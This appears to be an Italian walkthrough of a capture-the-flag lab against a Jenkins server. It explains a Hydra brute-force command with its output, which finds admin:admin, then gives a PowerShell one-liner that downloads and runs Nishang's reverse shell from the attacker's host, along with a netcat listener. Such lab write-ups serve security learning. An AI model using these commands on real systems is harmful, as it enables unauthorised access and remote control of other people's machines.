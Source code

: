 - `-L /usr/share/wordlists/metasploit/unix_users.txt`: Indica il file che contiene l'elenco degli username da provare. In questo caso, si utilizza un file di wordlist che contiene nomi utente comuni.
    
- `-P /usr/share/wordlists/rockyou.txt`: Indica il file che contiene l'elenco delle password da provare. Qui si utilizza il famoso file di wordlist "rockyou.txt", che contiene molte password comuni.
    
- `10.10.238.227`: Questo è l'indirizzo IP della macchina target su cui si sta tentando di effettuare il login.
    
- `http-post-form`: Specifica che si sta tentando di effettuare un attacco su un modulo di login che utilizza il metodo HTTP POST.
    
- `'/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password'`: Questa parte definisce il formato della richiesta POST.
    
    - `/j_acegi_security_check`: È l'URL del modulo di login.
    - `j_username=^USER^`: Qui `^USER^` verrà sostituito da ciascun nome utente della lista.
    - `j_password=^PASS^`: Qui `^PASS^` verrà sostituito da ciascuna password della lista.
    - `from=&Submit=Sign+in`: Questi sono altri parametri del modulo che vengono inviati con la richiesta.
    - `Invalid username or password`: Questo è il messaggio di errore che Hydra cercherà nella risposta per determinare se il login è fallito.
- `-f`: Questo flag indica a Hydra di fermarsi al primo login riuscito. Se non è presente, Hydra continuerà a provare tutte le combinazioni.
    
- `-o login_brute_force.txt`: Specifica il file di output in cui verranno salvati i risultati dell'attacco, inclusi eventuali login riusciti.
    

In sintesi, questo comando tenta di effettuare un attacco di forza bruta su un modulo di login web, utilizzando una lista di nomi utente e una lista di password, e salva i risultati in un file.

```
└─$ hydra -s 8080 -L us.txt -P pw.txt 10.10.238.227 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password' -f -o login_brute_force.txt
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-31 04:13:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:4/p:6), ~2 tries per task
[DATA] attacking http-post-form://10.10.238.227:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password
[8080][http-post-form] host: 10.10.238.227   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-31 04:13:25

```

scarichiamo
```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```
creiamo server per trasferire script
```
python3 -m http.server 8081
```
mettiamo in ascolto altro terminale in attesa che lo script trasferito venga eseguito
```
nc -nvlp 1234
```
creiamo il comando per caricare ed eseguire lo script dal server Jenkins 
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
quindi lo inseriamo in project>general salviamo